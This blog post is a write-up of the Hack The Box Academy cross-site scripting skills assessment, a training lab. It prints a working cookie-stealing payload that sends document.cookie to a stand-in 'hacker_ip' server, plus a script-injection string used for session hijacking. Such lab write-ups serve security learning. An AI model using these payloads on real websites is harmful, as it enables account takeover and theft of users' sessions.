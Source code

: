 ```yaml
---
title: 'HTB Academy: Cross-Site Scripting (XSS)'
author: saramazal
date: 2024-11-08
categories: [HTB Academy]
tags: [HackTheBox Academy, Skills Assessment, cbbh, cpts, xss, tmpserver, Session Hijacking ]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/xss.png
---
```




## [HTB Academy: Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
### Skills Assessment
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```bash
mkdir /tmp/tmpserver
```

```bash
cd /tmp/tmpserver
```

```bash
nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;
```

```bash
nano index.php
```

![php-code](/images/htb-academy/php-code.png)

## Let's start your server

```bash
sudo php -S 0.0.0.0:3333
```

### Now let's test the input fields on the target site:

```bash
"><script src=http://hacker_ip:3333/myscript.js></script>
```

![inputs](/images/htb-academy/inputs.png)
![php-server](/images/htb-academy/php-server.png)

### Great, it works!

### Let's check our cookie file.

![cookie](/images/htb-academy/cookie.png)

## Happy Hacking!


[![XSS Badge](/images/htb-academy/badges/xss-badge.png){: width="600" height="auto" .shadow }](https://academy.hackthebox.com/achievement/badge/1e195a3e-ef45-11ee-b18d-bea50ffe6cb4)


[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)

